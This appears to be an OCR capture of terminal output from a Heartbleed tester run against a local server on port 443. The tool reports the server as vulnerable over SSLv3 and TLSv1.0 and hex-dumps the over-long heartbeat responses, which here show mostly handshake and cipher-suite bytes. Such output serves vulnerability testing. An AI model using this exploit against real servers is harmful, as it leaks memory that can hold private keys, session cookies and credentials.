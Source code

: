 ```bash
[-] Connecting to 127.0.0.1:443 using SSLv3
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over SSLv3
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 00 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.0
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.0
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 01 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
```